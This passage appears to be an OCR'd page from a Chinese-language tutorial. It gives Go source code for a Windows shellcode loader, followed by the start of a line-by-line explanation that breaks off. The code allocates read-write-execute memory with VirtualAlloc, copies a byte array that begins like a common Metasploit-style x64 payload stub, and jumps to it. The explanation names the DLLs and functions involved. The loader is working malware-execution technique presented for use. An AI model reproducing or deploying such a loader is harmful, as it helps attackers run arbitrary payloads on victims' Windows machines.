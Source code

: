 ```golang
		0xfc, 0x48, 0x83, 0xe4, 0xf0, 0xe8, 0xcc, 0x00, 0x00, 0x00, 0x41, 0x51, 0x41, 0x50, 0x52,
		0x48, 0x31, 0xd2, 0x65, 0x48, 0x8b, 0x52, 0x60, 0x48, 0x8b, 0x52, 0x18, 0x51, 0x48, 0x8b,
		0x52, 0x20, 0x56, 0x48, 0x8b, 0x72, 0x50, 0x48, 0x0f, 0xb7, 0x4a, 0x4a, 0x4d, 0x31, 0xc9,
		0x48, 0x31, 0xc0, 0xac, 0x3c, 0x61, 0x7c, 
	}
)
// 错误检查函数
func checkErr(err error) {
	if err != nil {
		if err.Error() != "The operation completed successfully." {
			println(err.Error())
			os.Exit(1)
		}
	}
}

func main() {
	shellcode := shellcode_buf  // Shellcode数据
	// 调用VirtualAlloc函数分配内存
	addr, _, err := VirtualAlloc.Call(0, uintptr(len(shellcode)), MEM_COMMIT|MEM_RESERVE, PAGE_EXECUTE_READWRITE)
	if err != nil && err.Error() != "The operation completed successfully." {
		syscall.Exit(0)
	}
	fmt.Println("内存分配成功")
	// 调用RtlCopyMemory函数复制内存
	_, _, err = RtlCopyMemory.Call(addr, (uintptr)(unsafe.Pointer(&shellcode[0])), uintptr(len(shellcode)))
	if err != nil && err.Error() != "The operation completed successfully." {
		syscall.Exit(0)
	}
	fmt.Println("内存复制成功")
	// 调用分配内存地址处的Shellcode
	syscall.Syscall(addr, 0, 0, 0, 0)
}
```

> 代码解释:
> 
> 1.导入包：
> 
> - fmt: 提供格式化I/O功能。
> 
> - os: 提供平台无关的操作系统功能。
> 
> - syscall: 提供低级别的系统调用接口。
> 
> - unsafe: 提供Go语言中不安全的内存操作。
> 
> 2.常量定义:
> 
> - MEM_COMMIT, MEM_RESERVE, PAGE_EXECUTE_READWRITE: 内存分配和页面属性常量，用于调用VirtualAlloc函数。
> 
> 3.加载DLL和函数:
> 
> - 使用syscall.MustLoadDLL加载kernel32.dll和ntdll.dll。
> 
> - 使用kernel32.MustFindProc("VirtualAlloc")查找VirtualAlloc函数。
> 
> - 使用ntdll.MustFindProc("RtlCopyMemory")查找RtlCopyMemory函数。
> 
> 4.定义Shellcode:
> 